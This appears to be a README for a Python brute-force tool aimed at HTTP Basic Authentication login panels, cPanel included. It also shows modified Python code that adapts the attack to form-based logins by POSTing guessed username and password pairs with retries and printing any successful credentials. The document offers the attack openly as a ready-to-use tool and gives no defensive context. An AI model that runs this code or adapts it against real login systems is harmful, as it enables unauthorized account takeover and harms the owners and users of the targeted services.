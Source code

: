 ### About 


This brute forcing script is made to target HTTP Basic Authentication login panels, not just cpanel.
The script can only work with panels that respond with a 401 Unauthorized error when incorrect credentials are supplied.
However, you can modify the script to work with other types of login panels, depending on the authentication mechanism they use. 

* Example:

### Form-Based Authentication

```
data = urllib.parse.urlencode({'username': u, 'password': p}).encode()
req = urllib.request.Request(login_url, data=data)
```
Modification:

```
def attempt_login(self, username, password):
    attempt = 0
    success = False
    login_url = f"http://{self.server}/login"  # Change to the actual login URL

    while attempt < RETRY_LIMIT and not success and not success_event.is_set():
        try:
            # Prepare the data to be sent in the POST request
            data = urllib.parse.urlencode({'username': username, 'password': password}).encode()
            req = urllib.request.Request(login_url, data=data)

            with urllib.request.urlopen(req) as response:
                # Check the response for successful login
                if response.getcode() == 200:  # or some other success condition
                    print(f"SUCCESS: Username: {username} Password: {password}")
                    success_event.set()
                    success = True

        except urllib.error.HTTPError as e:
            print(f"Failed Login - User: {username} Password: {password}")
        except Exception as e:
            print(f"Connection error for {username}:{password} - Retry {attempt + 1}")
        attempt += 1
```

* You can see the help menu by running:

```
python bruteforce.py
```
